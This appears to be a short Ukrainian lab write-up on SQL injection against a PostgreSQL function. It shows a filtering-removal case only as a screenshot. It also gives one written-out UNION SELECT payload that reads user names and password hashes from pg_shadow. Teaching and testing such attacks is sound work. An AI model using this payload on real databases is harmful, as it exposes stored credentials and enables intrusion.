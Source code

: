 1. SQL-ін'єкція підкласу "Зняття фільтрації рідків умови SQL-запиту":
    <p><img width="321" alt="image" src="https://user-images.githubusercontent.com/52915030/206472057-fd695f8b-4443-4dcb-b37d-150bc1f6cb37.png"> </p>
2. SQL-ін'єкція підкласу "Отримання вмісту таблиць, що не входять у SQL- запит"
    <p> select * from get_data('1'' UNION SELECT CAST(usesysid as integer), CAST(USENAME as varchar), CAST(PASSWD as integer) FROM PG_SHADOW -- '); </p> <p> <img width="707" alt="image" src="https://user-images.githubusercontent.com/52915030/206477417-1c448160-a123-4603-aefd-e6657acd93e7.png">
 </p> 
 <p> <img width="429" alt="image" src="https://user-images.githubusercontent.com/52915030/206478148-ab3a67e4-a620-4a70-82c0-483bed20ab0d.png">
 </p>
